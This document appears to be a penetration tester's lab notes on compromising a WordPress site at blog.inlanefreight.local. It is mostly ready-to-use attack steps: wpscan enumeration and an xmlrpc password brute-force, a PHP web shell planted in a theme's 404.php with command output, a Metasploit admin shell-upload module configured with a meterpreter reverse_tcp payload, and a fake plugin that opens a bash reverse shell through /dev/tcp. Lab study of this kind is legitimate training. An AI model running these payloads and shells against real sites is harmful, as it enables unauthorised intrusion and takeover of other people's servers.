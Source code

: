 ### Enumeration

Using CURL:

```bash
curl -s http://blog.inlanefreight.local/robots.txt
curl -s http://blog.inlanefreight.local | grep WordPress
curl -s http://blog.inlanefreight.local/ | grep themes
curl -s http://blog.inlanefreight.local/ | grep plugins
```

WPScan:

```bash
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>

wpscan --url http://blog.inlanefreight.local --enumerate u,ap,at,cb,dbe --plugins-detection aggressive
```
### Attack

Login Bruteforce:

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

Code Execution:

Edit existing page `Appearance -> Theme Editor` - select the appropriate theme, then select a php page e.g. `404.php`. Add this:

```bash
system($_GET[cmd]);
```

![[Pasted image 20250131151227.png]]

Now have code execution:

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Metasploit:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

Add the details:

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.15.6     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```
### Custom Plugin

Create payload:

```bash
<?php

/**
* Plugin Name: Wordpress  Reverse Shell
* Author: NAME
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/x.x.x.x/xxxx 0>&1'")
?>
```

Zip it up:

```bash
zip shell.zip shell.php
```

Then upload it - Click `Plugins -> Add New -> Upload Plugin -> select zip file -> Install Now` then `Active Plugin`.

### Vulnerable Plugins

Look at ExploitDB, or google to find suitable exploits.